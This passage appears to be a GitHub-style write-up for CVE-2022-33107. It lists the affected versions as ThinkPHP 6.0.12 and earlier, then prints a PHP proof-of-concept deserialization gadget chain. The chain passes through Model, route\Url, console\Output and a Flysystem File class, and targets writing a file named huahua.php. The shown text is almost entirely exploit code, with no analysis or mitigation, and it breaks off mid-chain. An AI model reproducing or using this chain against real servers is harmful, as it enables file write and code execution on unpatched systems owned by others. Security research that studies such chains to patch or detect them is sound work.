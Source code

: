 ## CVE-2022-33107

### 适用范围

thinkphp<=6.0.12  
Poc:

```plain
<?php
namespace think\model\concern{
    trait Attribute{
        private $data = ['huahua'];
    }
}

namespace think\view\driver{
    class Php{}
}
namespace think\session\driver{
    class File{

    }
}
namespace League\Flysystem{
    class File{
        protected $path;
        protected $filesystem;
        public function __construct($File){
            $this->path='huahua.php';
            $this->filesystem=$File;
        }
    }
}
namespace think\console{
    use League\Flysystem\File;
    class Output{
        protected $styles=[];
        private $handle;
        public function __construct($File){
            $this->styles[]='getDomainBind';
            $this->handle=new File($File);
        }
    }
}
namespace think{
    abstract class Model{
        use model\concern\Attribute;
        private $lazySave;
        protected $withEvent;
        protected $table;
        function __construct($cmd,$File){
            $this->lazySave = true;
            $this->withEvent = false;
            $this->table = new route\Url(new Middleware,new console\Output($File),$cmd);
        }
    }
    class Middleware{
        public $request = 2333;
    }
}

namespace think\model{
    use think\Model;
```